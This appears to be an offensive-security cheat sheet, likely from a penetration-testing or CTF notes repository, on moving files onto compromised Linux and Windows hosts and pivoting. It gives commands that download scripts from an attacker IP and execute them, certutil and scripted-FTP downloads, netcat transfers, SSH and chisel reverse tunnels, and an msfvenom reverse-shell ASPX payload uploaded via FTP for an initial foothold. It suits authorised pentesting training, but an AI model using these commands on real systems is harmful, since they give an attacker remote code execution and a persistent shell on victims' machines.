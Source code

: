 ## Linux
- `python3 -m http.server 80`
   - start web server from location file is at
- `wget http://ip/file.sh`
- OR
- `curl -O http://10.10.10.10/file.sh`
  - `chmod +x file.sh`
  - `./file.sh`
 
#### Netcat
- Local host
  - `nc -nvlp 4444 < file`
- Target host
  - `nc <hostip> 4444 > file`
- If get this error: This is nc from the netcat-openbsd package. An alternative nc is available
  - run this: `nc -l 1234 > file.sh`
 
#### SSH
- using proxychains:
   - from target:
      - `ssh -fN -R [port] root@[localhost]`
   - from local host:
      - `ssh -fN -D [port] user@[target]`

- for a better shell, can try ssh
- .ssh files in /home/user -> identify with `ls -la`
- create keypair
  - ssh-keygen
- Can use SCP now
  - if need a file from something ssh connected to try scp
  - `scp /path/to/source/file.ext username@10.0.0.10:/path/to/destination/file.ext`
  - `scp <user@machineip>:Filename /directorytodownloadto/`


 ## Windows
 - Doesnt typically have netcat, wget or curl

#### Certutil
- certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

#### FTP
- try ftp 10.10.10.10
 - Can create a file with the following:
   - `echo open 10.10.10.10> ftpreq.txt`
   - `echo USER username>> ftpreq.txt`
   - `echo password>> ftpreq.txt`
   - `echo bin>> ftpreq.txt`
   - `echo GET wget.exe>> ftpreq.txt`
   - `echo bye>> ftpreq.txt`
  - Run `ftp -v -n -s:ftpreq.txt`

#### Chisel
- host:
   - `chisel server -p 8000 --socks5 --reverse`
- target:
   - `chisel client [attacker]:8000 R:socks`
- edit /etc/proxychains.conf
...
- socks5    [host] 1080
- proxychains [command to execute on target]

## Original foothold:
- Manual shell msfvenom
- `Msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f aspx > shell.aspx`
- Put it into the FTP
- Set up a listener and navigate to it via firefox
